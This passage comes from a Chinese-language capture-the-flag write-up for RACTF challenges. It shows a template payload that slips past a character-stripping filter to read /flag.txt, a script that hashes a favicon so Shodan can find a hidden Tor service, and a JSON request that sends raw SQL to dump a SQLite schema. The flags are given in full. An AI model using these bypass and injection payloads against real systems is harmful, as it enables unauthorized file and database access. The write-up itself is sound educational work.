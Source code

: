其将双花括号和两点依次进行空替换处理，构造出如下载荷来达成渲染 emoji 从而达成任意文件读取。

```plain text
{..{/flag.txt}..}
```

此时替换后即可正好达成 {{/flag.txt}}，从而在查看页面中渲染出如下包含 flag 的信息。

```plain text
data:image/png;base64,cmFjdGZ7ZGo0bmcwX2xmaX0K
```

将字符串中包含的 Base64 字符串解码即可得到 flag。

```flag
ractf{dj4ng0_lfi}
```

#### Really Awesome Hidden Service

Tor 打开所给的链接后可以得到如下页面。

![](https://api.lemonprefect.cn/image/hdslb/archive/a13494bb-6130-4ccf-8ca4-202b501898a0/1629257051164705/8bc89dcda1cc9f449fd31d4c35c7ea0e89fcb763.png)

因此需要想办法找到隐藏的服务，参照如下页面可以找到思路。

> https://isc.sans.edu/forums/diary/Hunting+phishing+websites+with+favicon+hashes/27326/

由于站点使用的 favicon 都是一样的，因此可以使用 favicon 的 MurmurHash3 配合 Shodan 来进行页面搜寻。将页面所用的 favicon 下载下来后使用如下脚本得到 hash。

```python
import requests,mmh3,base64
favicon = base64.encodebytes(open("./favicon.ico", "rb").read())
hash = mmh3.hash(favicon)
print(hash)
```

使用 Shodan 配合关键词 http.favicon.hash:-915494641 搜索可以得到如下结果。

![](https://api.lemonprefect.cn/image/hdslb/archive/a13494bb-6130-4ccf-8ca4-202b501898a0/1629257334439457/21363494246d6938dfc690c67f4352e9ae3b4649.png)

可以发现得出了两个页面，访问页面即可得到 flag。

```flag
ractf{DreadingPirates}
```

#### Really Awesome Monitoring Dashboard

打开站点后查看请求，可以发现有一个 /api/ds/query 的请求中提交了 SQL 语句，且其所使用的数据库类型是 SQLite。按照其请求构造出如下载荷来尝试读取出表结构。

```json
{
    "queries":[
        {
            "queryText":"SELECT group_concat(sql) FROM sqlite_master;",
            "queryType":"table",
            "rawQueryText":"SELECT group_concat(sql) FROM sqlite_master;",
            "refId":"A",
            "datasource":"sqlite",
            "datasourceId":1,
            "intervalMs":30000,
            "maxDataPoints":710
        }
    ]
}
```
